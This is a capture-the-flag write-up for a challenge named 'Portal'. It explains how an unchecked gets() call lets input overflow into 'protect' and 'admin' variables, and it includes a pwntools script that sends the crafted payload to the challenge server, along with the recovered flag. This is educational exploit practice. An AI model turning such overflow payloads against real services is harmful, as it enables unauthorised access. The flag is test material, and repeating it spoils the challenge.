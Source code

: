 ### Portal

Given chal.c

`gets()` means this is probably a buffer overflow
However, there is simple protection used in this case, cannot go overboard on overflowing

The approach is pretty nooby, since I forgot how to do buffer overflow
printf the protect and admin values, try lengths of input until the values change
Then, retain value of protect and change admin

Offset is 10, next byte should be \0, then A then any byte other than 0
Make sure the 10 filler is not A, since chal.c checks for that
I used username but password may also work, for this I sent nothing to password

created simple pwntools program pwned.py

```
from pwn import *

offset = 10
host = "chals.secedu.site"
port = 5000

elf = ELF("./chal")
# p = elf.process()
p = remote(host, port)

payload = b'B' * offset + b'\0' + b'A' + b'1'

log.info(p.recv())
p.sendline(payload)
log.info(p.recv())
p.sendline(b'')
log.success(p.recv())
```

Got flag **SECEDU{por74l_to_n0wh3r3}**